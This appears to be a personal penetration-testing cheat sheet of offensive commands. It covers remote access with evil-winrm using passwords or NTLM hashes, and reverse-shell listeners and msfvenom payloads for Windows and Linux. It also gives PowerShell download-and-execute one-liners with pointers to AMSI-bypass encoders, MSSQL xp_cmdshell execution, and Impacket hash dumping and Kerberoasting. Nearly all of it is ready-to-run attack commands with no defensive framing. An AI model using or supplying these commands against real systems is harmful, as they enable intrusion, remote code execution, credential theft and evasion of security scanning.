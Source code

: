 ## Remote Access
```
evil-winrm -i {IP} -u {username} -p {password/NTLM hash}

upload {local_filename} {destination_filename (optional)}
download {remote_filename} {destination_filename (optional)}
```
> evil win-rm
> only for windows pro or windows with RDP!!! >.<
> powershell commands can be executed

# Hosting Servers

# HTTP server
```
python3 -m http.server 80
```
> make sure to be in the directory of the server
> --directory can be used

# SMB server
```
sudo smbserver {share name} -username user -password password

net use \\{IP}\{share name} /user:user password

```
> -smb2support might be needed for some windows

# SMB 
```
smbclient -L //(IP)/{share name} 
get > download {filename}
get > uppload {filename}
smbclient -L //{IP}
```

# Reverse Shells

## Listening port
> port 1234, 4444
```
nc -lvnp 4444
rlwrap nc -lvnp 4444

use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
```
> rlwrap allows users to use previous commands 


## Msfvenom
>Take note anything with meterpreter is for msfconsole multihandler

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST={IP} LPORT=4444 -f exe > reverse.exe
msfvenom -p windows/meterpreter/reverse_tcp LHOST={IP} LPORT=4444 -f dll > reverse.dll
msfvenom -p windows/shell_reverse_tcp LHOST={IP} LPORT=4444 -f exe > reverse.exe
msfvenom -p windows/shell/reverse_tcp LHOST={IP} LPORT=4444 -f dll > reverse.dll
```
> windows .exe & .dll

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.0.1 LPORT=4444 -f elf >reverse.elf
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.0.1 LPORT=4444 -f elf >reverse.elf
```
> linux


# Powershell 

# Downloading files
```
powershell.exe IEX (New-Object Net.WebClient).DownloadString("{IP/website url}")
```
> download and execute 
> you can encode using https://amsi.fail/ to bypass

```
IEX((New-Object Net.WebClient).DownloadString("{IP/website url}"))
```
> download
> you can encode using https://raikia.com/tool-powershell-encoder/ to bypass

```
powershell.exe -e 
```
> execute using powershell 
> e.g. powershell.exe -e (encoded stuff)


# check OS version
```
[Environment]::Is64BitProcess
(Get-WmiObject Win32_OperatingSystem).OSArchitecture
```
> checking OS architecture 


# MSSQL
```
enable_xp_cmdshell
EXEC xp+cmdshell '{command}'
```
> summons interactive shell / cmd for MSSQL


## Impacket

# Hash dump
```
secretsdump.py '{username}@{IP}'
```
> hash dump 

# Kerberoasting + hash via SPN
```
GetUserSPNs.py -request -{NETBIOSNAME}-ip {IP} {DOMAIN}/{NAME}:{PASSWORD}
```
> hash dump via keberoasting 

# MS sql logon 
```
mssqlclient.py {username}@{IP}
```
